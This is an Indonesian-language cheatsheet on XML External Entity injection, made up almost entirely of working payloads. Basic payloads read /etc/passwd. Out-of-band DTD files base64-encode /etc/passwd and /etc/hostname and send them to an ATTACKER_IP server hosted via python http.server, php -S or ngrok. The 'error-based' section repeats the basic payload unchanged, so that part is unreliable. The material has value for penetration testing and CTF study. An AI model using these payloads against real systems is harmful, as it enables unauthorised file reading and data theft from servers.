 # XXE (XML External Entity) Injection Cheatsheet

## 1. Apa itu XXE?

XXE adalah celah keamanan pada aplikasi yang memproses input XML tanpa konfigurasi yang aman, sehingga memungkinkan penyerang untuk membaca file lokal, melakukan SSRF, atau exfiltrate data.

---

## 2. XXE Basic Payload

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <data>&xxe;</data>
</root>
```

**Tujuan:** Membaca file lokal (`/etc/passwd`).

---

## 3. XXE Error-Based

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>
    <data>&xxe;</data>
</root>
```

**Catatan:** Jika output tidak langsung terlihat, kadang error message akan menampilkan hasil pembacaan file.

---

## 4. XXE Out-of-Band (OOB) dengan Custom DTD

### a. Menyiapkan Server untuk Exfiltration

- Jalankan HTTP server di direktori yang berisi `evil.dtd`:
  ```bash
  python3 -m http.server 1337
  # atau
  php -S 0.0.0.0:1337
  ```
- Untuk akses publik, gunakan ngrok:
  ```bash
  ngrok http 1337
  ```

### b. Isi dari `evil.dtd`

```xml
<!-- evil.dtd -->
<!ENTITY % cmd SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oobxxe "<!ENTITY exfil SYSTEM 'http://ATTACKER_IP:1337/?data=%cmd;'>">
%oobxxe;
```

### c. Payload XXE untuk Memanggil DTD Eksternal

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:1337/evil.dtd">
  %xxe;
]>
<root>
    <data>&exfil;</data>
</root>
```

**Penjelasan:**

- Server korban akan memuat DTD eksternal (`evil.dtd`), membaca file `/etc/passwd`, lalu mengirim hasilnya ke server attacker.

---

## 5. Contoh Custom DTD Lain

### Membaca File Lain (misal `/etc/hostname`)

**Buat file baru:** `evil-hostname.dtd`

```xml
<!-- filepath: /home/alfiang/Cyber/Cheatsheet/web-exploitation/XXE-Injection/evil-hostname.dtd -->
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % oob "<!ENTITY send SYSTEM 'http://ATTACKER_IP:1337/?host=%file;'>">
%oob;
```

**Payload XXE:**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
  <!ENTITY % xxe SYSTEM "http://ATTACKER_IP:1337/evil-hostname.dtd">
  %xxe;
]>
<root>
    <data>&send;</data>
</root>
```

---

## 6. Tips & Catatan

- Ganti `ATTACKER_IP` dengan IP publik/ngrok kamu.
- Gunakan base64 encode agar data tidak corrupt saat exfiltration.
- Beberapa aplikasi membatasi akses DTD eksternal, gunakan SSRF jika memungkinkan.
